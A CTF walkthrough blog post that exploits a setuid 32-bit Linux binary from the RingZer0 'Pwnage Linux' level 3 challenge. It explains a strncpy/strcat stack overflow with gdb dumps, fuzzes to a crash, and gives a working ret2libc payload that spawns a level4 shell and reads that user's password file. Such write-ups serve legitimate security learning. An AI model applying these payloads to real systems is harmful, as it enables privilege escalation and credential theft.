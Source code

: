 ```yaml
---
title: "R0 | Pwnage Linux - Level3"
layout: post
date: 2019-08-23
tag:
- Pwnage
- x86 
- Linux
- Ret2libc
- walktrhough
- CTF 
category: blog
author: Srbx7
description: R0 | Pwnage Linux - Level3
---
```



`# file level3`

```
level3: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=2336e9f02b6ccbbcccd445196c761004ba06c764, with debug_info, not stripped
```

> Has a setuid

> Is an ELF 32-bit LSB exec

> Is compile for Intel x86 processors


`# checksec level3`

```
[*] '/root/ringzer0team/pwnageLinux/level3/level3'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

`# cat /levels/level3.c`

```c
// Created by Hidden (hidden@undernet.org)

#include <stdio.h>
#include <stdlib.h>
#include <string.h>


char* concat(char *buf, char *s1, char *s2)
{
	// Copy s1 to buf
	strcpy(buf, s1);
	// Append s2 to s1 into buf
	strcat(buf, s2);
	return buf;
}


int main(int argc, char **argv)
{
	char buf[256];
	char buf1[128];
	char buf2[128];

	if (argc != 3)
		return 0;

	// Copy argv[1] to buf1 and argv[2] to buf2
	strncpy(buf1, argv[1], sizeof(buf1));
	strncpy(buf2, argv[2], sizeof(buf2));

	concat(buf, buf2, buf1);
	printf("String result: %s\n", buf);
	return 0;
}
```

Well okay, if it's not already perceived, a good exercise would be for you to spot any anomaly, a use that differs from one point to another in this code...

Need a hint? Okay, what differs from `strcpy()` and `strncpy()` ?

> Problem w/ `strncpy( char *dest, const char *src, size_t n )`: If there is no null character among the first n characters of src, the string placed in dest will not be null-terminated. So `strncpy()` does not guarantee that the destination string will be NULL terminated. Hence, its buffer memory can't be directly overflow.

> Problem w/ `strcpy( char *dest, const char *src )`: The `strcpy()` function does not specify the size of the destination array, so buffer overrun is often a risk --as `strcat` and `strcmp`.

Fine! By fulling the `buf2` buffer w/o null byte, it's possible to overflow the `buf`. In other words, since `buf1` is right next (below) `buf2` on the stack and `strcpy` function stop copying when it gets a null char, `buf2` will looks something like `buf2` + `buf1`.

```
|      128      | arg2 -> buf2 -> s1
|      128      | arg1 -> buf1 -> s2
|      256      | buf 
|      ...      | 
| return_adress |
```

```bash
(gdb) r A `python -c 'print "\x42" * 127'`
(...)
Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
31		concat(buf, buf2, buf1);
(gdb) x/100wx $eax-100
0xffffd98c:	0x00000000	0xf7ffd000	0x08048260	0xf7ffd000
0xffffd99c:	0xf7ffd53c	0xffffd9b8	0xf7e219f8	0x00000000
0xffffd9ac:	0xffffdaa4	0xf7fe87eb	0x00000000	0xf7fcc000
0xffffd9bc:	0xf7fcc000	0xffffdbf8	0xf7feeff0	0xffffdc24
0xffffd9cc:	0xf7ea357c	0xf7fcc000	0xf7fcc000	0x00000000
0xffffd9dc:	0x0804854a	0xffffd9f0	0xffffddd0	0x00000080
0xffffd9ec:	0xf7fe2f60	0x42424242	0x42424242	0x42424242
0xffffd9fc:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda0c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda1c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda2c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda3c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda4c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda5c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda6c:	0x00424242	0x00000041	0x00000000	0x00000000 <---------- * 128th byte is null
```

```bash
(gdb) r A `python -c 'print "\x42" * 128'`
...
Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
31		concat(buf, buf2, buf1);
(gdb) x/100wx $eax-100
0xffffd98c:	0x00000000	0xf7ffd000	0x08048260	0xf7ffd000
0xffffd99c:	0xf7ffd53c	0xffffd9b8	0xf7e219f8	0x00000000
0xffffd9ac:	0xffffdaa4	0xf7fe87eb	0x00000000	0xf7fcc000
0xffffd9bc:	0xf7fcc000	0xffffdbf8	0xf7feeff0	0xffffdc24
0xffffd9cc:	0xf7ea2a15	0xf7fcc000	0xf7fcc000	0x00000000
0xffffd9dc:	0x0804854a	0xffffd9f0	0xffffddcd	0x00000080
0xffffd9ec:	0xf7fe2f60	0x42424242	0x42424242	0x42424242
0xffffd9fc:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda0c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda1c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda2c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda3c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda4c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda5c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda6c:	0x42424242	0x00000041	0x00000000	0x00000000 <---------- * 128th byte is \x42
```

Since `buf2` has to be exactly 128-byte w/o null char (e.g.: bigger values are just going to be ignored by `strncpy` function), let's play w/ `buf1` and fuzz values to crash the program.

```bash
level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 69'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 70'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Several methods can make it possible to execute arbitrary code, in particular by using a global variable in which there is a shellcode and the address is known beforehand. Although, I prefered to play a bit more with the basic gdb commands on the server to get more familiar w/ the basics and `ret2libc`.

```bash
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e56940 <system>
(gdb) find 0xf7e56940, +99999999999, "/bin/sh"
0xf7f7502b
warning: Unable to access 16000 bytes of target memory at 0xf7fcedb3, halting search.
1 pattern found.
```

Exploit this binary! ;)

```bash
level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 64 + "\x40\x69\xe5\xf7"+ "CCCC"  + "\x2b\x50\xf7\xf7"'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@i��CCCC+P��AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@i��CCCC+P��
level4@lxc-pwn-x86:/levels$ wc -l /home/level4/.pass
1 /home/level4/.pass
level4@lxc-pwn-x86:/levels$ 
```
